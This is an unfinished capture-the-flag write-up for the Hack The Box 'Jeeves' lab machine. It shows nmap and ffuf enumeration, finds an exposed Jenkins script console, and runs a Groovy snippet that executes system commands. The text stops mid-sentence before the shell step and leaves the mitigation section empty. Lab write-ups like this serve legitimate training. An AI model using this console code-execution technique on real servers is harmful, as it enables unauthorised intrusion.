
# Jeeves
- Walkthrough
- Mitigrations
- References


## Jeeves

The tester starteed with an nmap scan to enumerate the host.


```
└──╼ [★]$ nmap -sC -sV -p 80,135,445,50000 10.10.10.63
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-12 12:35 GMT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-12T17:35:46
|_  start_date: 2023-12-12T17:34:14
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.88 seconds

```

The scan showed that a web service was running on port 50000. The tester used ffuf to bruteforce the directories. 


```
└──╼ [★]$ ffuf -w '/home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'  -u http://10.10.10.63:50000/FUZZ -e .txt,.asp,.aspx,.config,.html

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /home/rang3r/Documents/Tools/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .txt .asp .aspx .config .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
    * FUZZ: askjeeves

:: Progress: [1245858/1245858] :: Job [1/1] :: 970 req/sec :: Duration: [0:23:13] :: Errors: 0 ::


```

The ffuf found the "askjeeves" directory. The endpoint is running the jenkins service. Jenkins has a script console that allows user to run "groovy" scripts on the server.


insert image of console---------------------


The tester used the following scipt to test code execution:

```
def process = "whoami".execute()
print "Output: " + process.text
print "Exit code: " + process.exitValue()
```

Which returned:

```
Result

Output: jeeves\kohsuke
Exit code: 0
```

The tester next gained a shell on the host by firest downloading the powershell 

## Mitigations 

## References
